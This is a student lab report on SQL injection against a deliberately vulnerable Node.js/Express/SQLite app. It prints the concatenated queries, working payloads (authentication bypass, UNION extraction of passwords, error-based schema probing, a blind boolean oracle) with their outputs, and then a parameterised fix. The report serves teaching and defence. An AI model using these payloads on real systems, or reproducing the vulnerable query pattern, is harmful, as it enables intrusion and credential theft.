






# WEB404 Secure Coding Practices - SQL Injection Lab Report

## 1. Title and Objective

**Title:** SQL Injection Exploitation and Remediation in a Node.js Express Application

**Objective:** This lab builds a small, intentionally vulnerable web application using Node.js, Express, and SQLite, demonstrates several categories of SQL injection against it with concrete payloads and observed outcomes, and then rewrites the application to remove the vulnerabilities using parameterised queries, input validation, and related defensive practices. The purpose is to understand how SQL injection arises from unsafe query construction, how different injection techniques are used to extract or bypass data, and how to prevent them in line with the course syllabus categories of in-band, blind, and out-of-band injection.

All testing in this report was performed against a local, isolated instance of the application, running only on localhost, built specifically for this assignment, and not exposed to any network or third party.

## 2. Environment and Setup

- **Runtime:** Node.js (v25.9.0 in the test environment), npm
- **Framework:** Express 4
- **Database:** SQLite, accessed through the `better-sqlite3` driver, chosen so the lab needs no external database server
- **Project layout:**

```
WEB404_assignment4/
  db/seed.js          seeds a fresh SQLite database with users and products
  vulnerable/
    server.js         vulnerable app, string-concatenated SQL, port 3001
    app.db            seeded SQLite database for the vulnerable app
  secure/
    server.js         secure app, parameterised SQL, port 3002
    app.db            seeded SQLite database for the secure app
  evidence/           captured terminal transcripts and screenshots of every exploit and fix
  report.md           this report
```

- **Seed data (`db/seed.js`):**
  - `users` table: `id, username, password, role` with rows for `admin` (password `SuperSecretAdminPass!`, role `admin`), `alice`, and `bob`
  - `products` table: `id, name, category, price` with five sample products

- **Running the lab:**
  ```
  npm install
  node db/seed.js vulnerable/app.db
  node db/seed.js secure/app.db
  node vulnerable/server.js     # listens on http://localhost:3001
  node secure/server.js         # listens on http://localhost:3002
  ```
- Both apps expose the same two features so the vulnerable and secure behaviour can be compared directly:
  - `POST /login` with `username` and `password`
  - `GET /api/search?q=` searching the `products` table by name

- **Evidence capture:** the application has no graphical interface, so evidence for each exploit was captured by running the exact `curl` command in a real macOS Terminal window and taking an actual screen capture of that window with `screencapture`, showing the command typed, the injected payload, and the live JSON response returned by the server. These screenshots are saved as `.png` files in the `evidence/` folder and are referenced throughout this report. The same requests were also saved as plain-text transcripts in `evidence/` for easy copy-pasting of payloads and queries.

## 3. The Vulnerable Queries Explained

The vulnerable application (`vulnerable/server.js`) builds both of its SQL statements by concatenating raw, unescaped user input directly into the query string.

**Login query:**
```js
const query =
  "SELECT id, username, role FROM users WHERE username = '" +
  username +
  "' AND password = '" +
  password +
  "'";
```

**Product search query:**
```js
const query = "SELECT id, name, category, price FROM products WHERE name LIKE '%" + q + "%'";
```

Because the input is spliced directly between the quote characters that delimit the SQL string literals, any quote character or SQL keyword inside `username`, `password`, or `q` becomes part of the query's actual structure rather than being treated as inert data. An attacker who closes the string literal early can append arbitrary SQL clauses, such as `OR`, `UNION SELECT`, or subqueries, and the database will execute them as written. The vulnerable application also returns the raw database error message to the client on failure, which gives an attacker direct visibility into schema details when a malformed payload throws an exception.



## 4. Exploitation for Each SQL Injection Type

All commands below were executed against the running vulnerable application on `http://localhost:3001`. Full transcripts are in `evidence/`.

### 4.1 Authentication Bypass

**Payload:**
```
username = admin' OR '1'='1' -- -
password = anything
```

**Resulting query:**
```sql
SELECT id, username, role FROM users WHERE username = 'admin' OR '1'='1' -- -' AND password = 'anything'
```

**Outcome:** the injected `OR '1'='1'` clause is always true, and the trailing `-- -` comments out the password check entirely. The application returns `AUTHENTICATED` for the `admin` account without the correct password ever being supplied.

```json
{
  "outcome": "AUTHENTICATED",
  "user": { "id": 1, "username": "admin", "role": "admin" }
}
```


Evidence files: `evidence/screenshot_01_auth_bypass.png`, `evidence/02_auth_bypass.txt`

### 4.2 UNION-Based Injection

**Step 1, probing the column count:**
```
q = nonexistent' ORDER BY 5 -- -
```
Resulting query:
```sql
SELECT id, name, category, price FROM products WHERE name LIKE '%nonexistent' ORDER BY 5 -- -%'
```
Outcome: the database rejects the request with `1st ORDER BY term out of range - should be between 1 and 4`, which confirms the underlying query returns exactly four columns.

**Step 2, exfiltrating data from the `users` table:**
```
q = nonexistent' UNION SELECT id, username, password, 1 FROM users -- -
```
Resulting query:
```sql
SELECT id, name, category, price FROM products WHERE name LIKE '%nonexistent' UNION SELECT id, username, password, 1 FROM users -- -%'
```

**Outcome:** the product search, which has no legitimate reason to touch the `users` table, returns every username and password in the system disguised as product rows.

```json
{
  "outcome": "OK",
  "count": 3,
  "rows": [
    { "id": 1, "name": "admin", "category": "SuperSecretAdminPass!", "price": 1 },
    { "id": 2, "name": "alice", "category": "alice2024",             "price": 1 },
    { "id": 3, "name": "bob",   "category": "bobspassword",          "price": 1 }
  ]
}
```


Evidence files: `evidence/screenshot_02_union.png`, `evidence/03_union_based.txt`

### 4.3 Error-Based Injection

**Payload:**
```
q = nonexistent' AND 1=(SELECT 1 FROM users_typo) -- -
```
Resulting query:
```sql
SELECT id, name, category, price FROM products WHERE name LIKE '%nonexistent' AND 1=(SELECT 1 FROM users_typo) -- -%'
```
**Outcome:** the application returns the raw SQLite error `no such table: users_typo` directly to the client. This confirms the backend database engine and reveals that table names can be enumerated by trial and error purely from the error text.

A second payload referencing a guessed column name confirms a real column exists:
```
q = nonexistent' AND 1=(SELECT 1 FROM users WHERE passwordx='x') -- -
```
Outcome: `no such column: passwordx`, which by elimination confirms the real column is named `password`, since a query against the genuine column name does not error in the same way.


Evidence files: `evidence/screenshot_03_error_based.png`, `evidence/04_error_based.txt`

### 4.4 Blind Boolean-Based Injection

This technique is used when the application does not return data directly or display database errors, only a visible difference in behaviour between a true and a false condition.

**Oracle design:** the base search term `zzznoproduct` never matches a real product, so under `OR` the response depends entirely on the injected predicate.

**True branch**, guessing the first character of the `admin` password is `S`:
```
q = zzznoproduct' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='S' -- -
```
Resulting query:
```sql
SELECT id, name, category, price FROM products WHERE name LIKE '%zzznoproduct' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='S' -- -%'
```
Outcome: `count: 5`, every product is returned, because the guess is correct and the predicate evaluates to true.

**False branch**, guessing the character is `X`:
```
q = zzznoproduct' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='X' -- -
```
Outcome: `count: 0`, no products are returned, because the predicate evaluates to false.

No error message and no actual password value are ever shown to the attacker. The true and false branches are distinguished only by the row count in the response, which is sufficient to recover the password one character at a time by repeating this request with every candidate character.


Evidence files: `evidence/screenshot_04_blind_boolean.png`, `evidence/05_blind_boolean.txt`

## 5. Explanation of the SQL Injection Categories

The syllabus groups SQL injection into in-band, blind, and out-of-band categories, based on how the attacker observes the result of an injected query.

**In-band injection** is the category where the attacker receives the result of the injection through the same channel used to launch the attack, that is, directly in the application's response.

- **Union-based** injection, demonstrated in section 4.2, appends a `UNION SELECT` statement to an existing query so that an unrelated table's data is merged into the legitimate result set and returned to the attacker in the normal response body. It requires the injected `SELECT` to return the same number of columns as the original query, which is why column-count probing with `ORDER BY` is typically the first step.
- **Error-based** injection, demonstrated in section 4.3, deliberately triggers a database error whose message is reflected back to the client. Because the error text often names a missing table, column, or type mismatch, an attacker can enumerate schema details purely from the wording of successive error messages, without ever seeing a row of real data.

**Blind injection** is the category where the application does not display query results or database errors at all, so the attacker must infer information indirectly from some other observable signal.

- **Boolean-based blind** injection, demonstrated in section 4.4, injects a predicate that is always provably true or false and observes a difference in the application's ordinary behaviour, such as the number of rows returned, a changed page, or a different HTTP status, rather than reading any data value directly. Recovering a secret value character by character through repeated true and false queries is the classic technique.
- **Time-based blind** injection follows the same logic but uses the response's timing instead of its content as the oracle. The attacker injects a predicate that, when true, causes the database to pause before responding, for example through a deliberately expensive computation or a dedicated delay function, and infers truth from whether the response was slow or fast. SQLite has no native sleep function, so this category is not demonstrated with a live payload in this lab, but it is conceptually identical to the boolean case: the only change is that the oracle is wall-clock time rather than response content, which makes it the technique of last resort when neither data nor behavioural differences are observable.

**Out-of-band injection**, not demonstrated in this lab because it depends on network egress features such as DNS or HTTP callbacks that most database engines, including SQLite, do not expose, relies on the database server itself initiating a separate network connection back to the attacker to deliver data, used when neither the response channel nor timing is a usable oracle.

**Prevention**, covered in detail in section 6, centres on never allowing user input to influence the structure of a SQL statement. Parameterised queries and prepared statements are the primary defence, because the database driver binds user input as data values after the statement structure is already fixed, so injected SQL syntax has no effect. Input validation, least-privilege database accounts, and a web application firewall are complementary, defence-in-depth measures that reduce the impact and attack surface of any single flaw, rather than replacing parameterisation.

## 6. The Secure Implementation Explained

The secure application (`secure/server.js`) answers the same two routes but removes the injection point at its source.

**Parameterised queries:**
```js
const stmt = db.prepare("SELECT id, username, role FROM users WHERE username = ? AND password = ?");
const row = stmt.get(username, password);
```
```js
const stmt = db.prepare("SELECT id, name, category, price FROM products WHERE name LIKE ?");
const rows = stmt.all(`%${q}%`);
```
The `?` placeholders are compiled into the prepared statement before any user input is attached. The driver then binds `username`, `password`, and the search term as literal data values, never as SQL text, so a payload such as `admin' OR '1'='1' -- -` is compared as the literal string it is, and simply fails to match any username.

**Input validation at the boundary:**
```js
const USERNAME_PATTERN = /^[A-Za-z0-9_.-]{1,32}$/;
const SEARCH_PATTERN = /^[A-Za-z0-9 _.-]{0,64}$/;
```
Usernames and search terms are checked against an allowlist of characters before they reach the query layer, and passwords are bounded to a maximum length. This is a defence-in-depth control, not the primary defence: it rejects malformed or suspicious input early and reduces the attack surface, but parameterisation is what actually makes the query immune to injection, since even input that happened to pass a looser filter would still be bound as data rather than executed as SQL.

**No raw error leakage:** database errors are logged server-side only, and the client receives a generic `SERVER_ERROR` response, which removes the error-based information leak demonstrated in section 4.3.

**Least-privilege database account (operational note):** SQLite itself has no user or role model, since it runs in-process rather than as a separate server, so this control cannot be demonstrated literally in this lab. If the same parameterised code were pointed at MySQL or PostgreSQL in a real deployment, the application should connect with an account that holds only the privileges it actually needs, typically `SELECT` on `products` and `SELECT` on `users` for authentication, with no `INSERT`, `UPDATE`, `DELETE`, `DROP`, or administrative rights, and no visibility into unrelated schemas. This limits the damage a successful injection, or any other compromise of the application tier, could cause to the database as a whole.

**Web application firewall (operational note):** a WAF placed in front of the application can inspect incoming requests for known SQL injection signatures, such as `UNION SELECT`, `OR 1=1`, or SQL comment sequences, and block them before they reach the application. This is a useful defence-in-depth layer, particularly against automated scanning and known payload patterns, but it is signature and pattern based, so a sufficiently obfuscated or novel payload can bypass it. A WAF should therefore be treated as an additional layer on top of parameterised queries and input validation, never as a replacement for them.

### Payloads Failing Against the Secure Version

All commands were executed against `http://localhost:3002`, the secure application. Full transcript in `evidence/06_secure_version_payloads_fail.txt`.

| Test | Payload | Secure app result |
|---|---|---|
| Legitimate login | `username=admin, password=SuperSecretAdminPass!` | `AUTHENTICATED` |
| Authentication bypass | `username=admin' OR '1'='1' -- -` | `INVALID_INPUT`, rejected before reaching the database |
| UNION-based | `q=nonexistent' UNION SELECT id, username, password, 1 FROM users -- -` | `INVALID_INPUT`, no rows from `users` returned |
| Error-based | `q=nonexistent' AND 1=(SELECT 1 FROM users_typo) -- -` | `INVALID_INPUT`, no database error text returned |
| Blind boolean, true branch | `q=zzznoproduct' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='S' -- -` | `INVALID_INPUT` |
| Blind boolean, false branch | same payload with `'X'` | `INVALID_INPUT`, identical to the true branch, so the oracle no longer exists |
| Legitimate search | `q=Key` | `OK`, returns the Mechanical Keyboard as expected |

Every injection payload is rejected at the validation step because it contains characters, such as the single quote, outside the allowed character set, and the true and false blind branches are now indistinguishable since both are rejected identically. Even in the hypothetical case where a payload used only allowed characters and passed validation, the parameterised query underneath would still bind it as a literal data value and prevent it from altering the query structure, which is why parameterisation, not validation, is described above as the primary defence.


Evidence files: `evidence/screenshot_05_secure_rejections.png`, `evidence/06_secure_version_payloads_fail.txt`

## 7. Before vs After Comparison

| Aspect | Vulnerable version | Secure version |
|---|---|---|
| Query construction | String concatenation of raw user input | Parameterised queries with `?` placeholders bound separately from the SQL text |
| Authentication bypass payload | Succeeds, logs in as `admin` without the password | Rejected at input validation, never reaches the query |
| UNION-based data exfiltration | Succeeds, returns all usernames and passwords | Rejected, no cross-table data exposure possible |
| Error-based schema leakage | Raw database error text returned to the client | Generic error response, no schema detail exposed |
| Blind boolean oracle | True and false branches distinguishable by row count | True and false branches behave identically, no oracle |
| Input validation | None | Allowlist pattern and length limits applied before query execution |
| Error handling | Raw `err.message` returned in the HTTP response | Errors logged server-side only, generic message to client |
| Database privileges | Not restricted in this lab (SQLite has no role model) | Documented as requiring a least-privilege account in a real deployment |
| Additional layer | None | WAF recommended as defence in depth, not a replacement for the above |

## 8. Preventive Measures

- Use parameterised queries or an ORM that parameterises under the hood for every database call that includes user-controlled input, with no exceptions for cases that look low risk.
- Validate and constrain user input at the application boundary using allowlists of expected characters and sensible length limits, understanding that this reduces attack surface but does not by itself make concatenated queries safe.
- Never return raw database error messages, stack traces, or driver exceptions to the client, log them server-side instead and return a generic error to the user.
- Apply the principle of least privilege to the database account the application uses, granting only the specific statement types and tables the application actually needs.
- Treat a web application firewall as a defence-in-depth layer that can catch known attack signatures and automated scanning, understanding that it does not replace secure query construction.
- Keep database drivers, frameworks, and dependencies up to date, since injection-adjacent vulnerabilities are also fixed at the driver level over time.
- Perform regular code review and automated static analysis specifically looking for string-built SQL, and include SQL injection test cases such as the ones in section 4 in the application's own test suite.

## 9. Conclusion

This lab reproduced the mechanics of SQL injection in a small, self-contained Node.js and Express application backed by SQLite, and demonstrated that a single unsafe pattern, string concatenation of user input into a SQL statement, is sufficient to enable authentication bypass, cross-table data exfiltration through UNION-based injection, schema enumeration through error-based injection, and covert data extraction through blind boolean-based injection. Rewriting the same two routes with parameterised queries, input validation, generic error handling, and the operational practices of least-privilege database access and a complementary WAF caused every one of the demonstrated payloads to fail, while leaving normal application behaviour unchanged. The central lesson is that parameterisation is the mechanism that actually closes the vulnerability, because it fixes the structure of the SQL statement before any user input is attached, and that the other measures discussed here are valuable but secondary layers that reduce risk and limit impact rather than substitutes for it.
